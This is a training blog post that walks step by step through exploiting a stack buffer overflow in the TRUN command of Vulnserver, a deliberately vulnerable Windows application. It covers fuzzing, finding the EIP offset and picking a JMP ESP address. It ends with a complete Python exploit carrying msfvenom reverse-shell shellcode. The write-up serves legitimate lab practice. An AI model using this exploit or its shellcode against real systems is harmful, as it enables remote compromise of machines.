 :slug: vulnserver-trun/
:date: 2020-06-10
:category: attacks
:subtitle: From zero to shell
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Man sitting facing laptop. Photo by Clint Patterson on Unsplash: https://unsplash.com/photos/dYEuFB8KQJk
:description: Vulnserver is a VbD application focused to help people practice the exploiting skills. This post will describe the steps taken to exploit the TRUN command. There will be a series of posts showing how to exploit other vulnserver commands and related information.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/dYEuFB8KQJk

= Vulnserver TRUN exploitation

Vulnserver is the natural next step to follow after finishing the
Offsec CTP course.
It's a VbD (Vulnerable-by-Design) application that was designed to help you
sharp the Windows exploitation skills.
You can download the executable link:https://github.com/stephenbradshaw/vulnserver[here]
along with the source code. Remind that you must grab the `essfunc.dll` file
as well.
However, this post (and the others to come) will try to replicate a
link:../../services/continuous-hacking/[grey box]
scenario that is the most common scenario in real explotation, in which we
only will have access to the binary and we must start doing thinks like
recognizance, enumeration and fuzzing.


*WARNING:*
Do NOT run `vulnserver.exe` on a sensitive machine or on a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options, the default used port will
be *TCP/9999*.

image::vulnserver1.png[vulnserver]

If we type `HELP` we can see the available commands. The commands commonly
receive a single parameter and will return a simple answer.
In this post, we are going to check the `TRUN` command.

image::trun1.png[trun]

For that, we issue the `TRUN` command with a single parameter and check
the answer.

== Fuzzing Vulnserver

Now that we know that the `TRUN` command receives a single parameter, we can
start fuzzing it.

For that, we'll be using link:https://github.com/guilhermeferreira/spikepp:[Spike].
More info on `Spike` can be found link:https://resources.infosecinstitute.com/intro-to-fuzzing/[here].

As we determined before, `TRUN` takes a single parameter. With that knowledge,
we can create the `Spike` script as simple as:

.trun.spk
[source,c]
----
s_string("TRUN ");
s_string_variable("*");
----

Notice that we are using two different `Spike` commands.
The `s_string` command will send an immutable string to the fuzzed protocol
and `s_string_variable` tells `Spike` to mutate that string.

Now we can send the fuzz attack to the victim machine:

image::trun2.png[Running spike]

Look at that: After only 3 iterations `vulnserver.exe` stopped working
and it seems that it happened when we sent 5000 bytes of data.
We can see this `Wireshark`:

image::trun3.png[Wireshark capture]

With that, we can start replicating the crash. For that we create the
first PoC (Proof-of-Concept) file:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 5000
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as fd:
    fd.connect((HOST, PORT))
    fd.sendall(PAYLOAD)
----

This time, let's will attach `vulnserver.exe` to a debugger. I will use
link:https://www.immunityinc.com/products/debugger/[Immunity Debugger]
with link:https://github.com/corelan/mona[mona.py] plugin.

So, let's run the initial exploit and see what happens:

image::trun4.gif[Exploit: take 1]

Great! We can replicate the crash of `vulnserver` and see what happened.

image::trun5.png[Controlling EIP]

If you look carefully at the image, you can see that the EIP register has the
value of `41414141` which is the hex representation of our payload of `A`.
That means that we can control the execution flow of the whole application
just by overwritting those 4 bytes.
But remember that we injected 5000 `A` so we must know the exact offset
on where EIP gets overwritten.
To do that, we can create a cyclic pattern of chars that will help us identify
the exact offset that we must inject to the buffer in order to control EIP.
We will use a tool from `Metasploit` called `pattern_create.rb`:

.Running pattern_create.rb
[source,bash]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit/
$ ./pattern_create.rb -l 5000
----

image::pattern1.png[Cyclic pattern]

We then add that pattern to our exploit, replacing the `A` with our pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'<paste pattern here>'
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as fd:
    fd.connect((HOST, PORT))
    fd.sendall(PAYLOAD)
----

And we run the exploit again:

image::trun6.gif[Exploit: take 2]

image::trun7.png[Cyclic pattern on EIP]

As you can see, the EIP register now holds the value `386F4337`. We can check
the exact offset of that string on our unique cyclic pattern.
To do that, we can use again `mona.py` or `Metasploit`:

image::pattern2.png[Pattern offset]

Great, that tells us that the EIP gets overwritten starting on the *2003*
byte of our buffer. Let's update the exploit to verify that:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    b'B' * 4 +
    b'C' * (5000 - 2003 - 4)
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as fd:
    fd.connect((HOST, PORT))
    fd.sendall(PAYLOAD)
----

In this updated exploit, we will send a buffer of 2003 `A`,
then a single 4 byte string of `B` (whose hex representation is `42`) and
fill the rest of our 5000 buffer with `C`. If the offset is correct, EIP will
hold the value of `42424242` which are the four bytes of our `B`:

image::trun8.gif[Correct offset to EIP]

Awesome! We know now the exact structure of the vulnerability and we can now
proceed to exploit it.

== Exploiting

Let's look at the value of the registers at the time of the crash.

image::trun9.png[Registers]

As you can see, there are two register that points to our injected buffer:
`EAX` and `ESP`.
`EAX` points at the exact beginning of our injected buffer, but includes the
chars `TRUN /.:/`. Those may be translated to harmless ASM instructions but
we must not risk our exploitation, besides we have the other register `ESP`
which points directly to our controlled buffer.

Given that, we must search on `vulnserver.exe` and its runtime dependencies
an instruction that can lead us to execute code starting on the memory region
pointed by `ESP`.

First, let's find the `vulnserver` runtime dependencies:

image::deps1.png[Runtime dependencies]

It is always a good idea to look for instructions on files that are not part of
of the OS because the address of those instructions will likely change over
different Windows versions and that make the exploit less portable.

`mona.py` cal also help us to indentify the desired instructions on the desired
modules, by running:

.mona
[source,bash]
----
!mona jmp -r esp -cp nonull -o
----

image::esp1.png[JMP ESP instructions]

As you can see, there are several `JMP ESP` instructions we can pick. We
are going to pick the one at `62501205`. Let's update the exploit and replace
the `B` with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * (5000 - 2003 - 4)
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as fd:
    fd.connect((HOST, PORT))
    fd.sendall(PAYLOAD)
----

If everything comes as expected, we will hit that `JMP ESP` instruction that
will lead us to the beginning of our `C`. Let's put a breakpoint at the
`JMP ESP` instruction and run the exploit:

image::trun10.gif[Performing the JMP ESP]

Great!

All that's left is to include a shellcode in place of the `C` so can
execute commands on the victim machine.
We will use a reverse shell payload as generated by `msfvenom`:

image::msfvenom1.png[Generating reverse shell]

It is always a good idea to generate shellcodes without bad chars that
may break the execution flow of our attack, such as null bytes (`0x0`),
line feed (`\r or 0xa`) and carriage return (`\n or 0xd`)

Also, note that our `JMP ESP` led us to our `C` but not exactly at the
beginning, so we must pad the exploit with some `C` chars to make the
payload gracefully slides to the start of our reverse shell.

Let's update the exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

SHELL =  b""
SHELL += b"\xb8\x9e\x3b\xe5\xc4\xda\xcf\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x52\x31\x45\x12\x83\xc5\x04\x03\xdb"
SHELL += b"\x35\x07\x31\x1f\xa1\x45\xba\xdf\x32\x2a\x32\x3a"
SHELL += b"\x03\x6a\x20\x4f\x34\x5a\x22\x1d\xb9\x11\x66\xb5"
SHELL += b"\x4a\x57\xaf\xba\xfb\xd2\x89\xf5\xfc\x4f\xe9\x94"
SHELL += b"\x7e\x92\x3e\x76\xbe\x5d\x33\x77\x87\x80\xbe\x25"
SHELL += b"\x50\xce\x6d\xd9\xd5\x9a\xad\x52\xa5\x0b\xb6\x87"
SHELL += b"\x7e\x2d\x97\x16\xf4\x74\x37\x99\xd9\x0c\x7e\x81"
SHELL += b"\x3e\x28\xc8\x3a\xf4\xc6\xcb\xea\xc4\x27\x67\xd3"
SHELL += b"\xe8\xd5\x79\x14\xce\x05\x0c\x6c\x2c\xbb\x17\xab"
SHELL += b"\x4e\x67\x9d\x2f\xe8\xec\x05\x8b\x08\x20\xd3\x58"
SHELL += b"\x06\x8d\x97\x06\x0b\x10\x7b\x3d\x37\x99\x7a\x91"
SHELL += b"\xb1\xd9\x58\x35\x99\xba\xc1\x6c\x47\x6c\xfd\x6e"
SHELL += b"\x28\xd1\x5b\xe5\xc5\x06\xd6\xa4\x81\xeb\xdb\x56"
SHELL += b"\x52\x64\x6b\x25\x60\x2b\xc7\xa1\xc8\xa4\xc1\x36"
SHELL += b"\x2e\x9f\xb6\xa8\xd1\x20\xc7\xe1\x15\x74\x97\x99"
SHELL += b"\xbc\xf5\x7c\x59\x40\x20\xd2\x09\xee\x9b\x93\xf9"
SHELL += b"\x4e\x4c\x7c\x13\x41\xb3\x9c\x1c\x8b\xdc\x37\xe7"
SHELL += b"\x5c\x23\x6f\xe7\x88\xcb\x72\xe7\xa1\x57\xfa\x01"
SHELL += b"\xab\x77\xaa\x9a\x44\xe1\xf7\x50\xf4\xee\x2d\x1d"
SHELL += b"\x36\x64\xc2\xe2\xf9\x8d\xaf\xf0\x6e\x7e\xfa\xaa"
SHELL += b"\x39\x81\xd0\xc2\xa6\x10\xbf\x12\xa0\x08\x68\x45"
SHELL += b"\xe5\xff\x61\x03\x1b\x59\xd8\x31\xe6\x3f\x23\xf1"
SHELL += b"\x3d\xfc\xaa\xf8\xb0\xb8\x88\xea\x0c\x40\x95\x5e"
SHELL += b"\xc1\x17\x43\x08\xa7\xc1\x25\xe2\x71\xbd\xef\x62"
SHELL += b"\x07\x8d\x2f\xf4\x08\xd8\xd9\x18\xb8\xb5\x9f\x27"
SHELL += b"\x75\x52\x28\x50\x6b\xc2\xd7\x8b\x2f\xe2\x35\x19"
SHELL += b"\x5a\x8b\xe3\xc8\xe7\xd6\x13\x27\x2b\xef\x97\xcd"
SHELL += b"\xd4\x14\x87\xa4\xd1\x51\x0f\x55\xa8\xca\xfa\x59"
SHELL += b"\x1f\xea\x2e"

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * 32 +
    SHELL +
    b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as fd:
    fd.connect((HOST, PORT))
    fd.sendall(PAYLOAD)
----

And let's check it

image::success.gif[Our reverse shell]

Great! We got our shell!

== Conclusion

This was one the most straightforward exploits for vulnserver. Other commands
will pose a little more effort but fear not, we will post here how to
successfully exploit them.
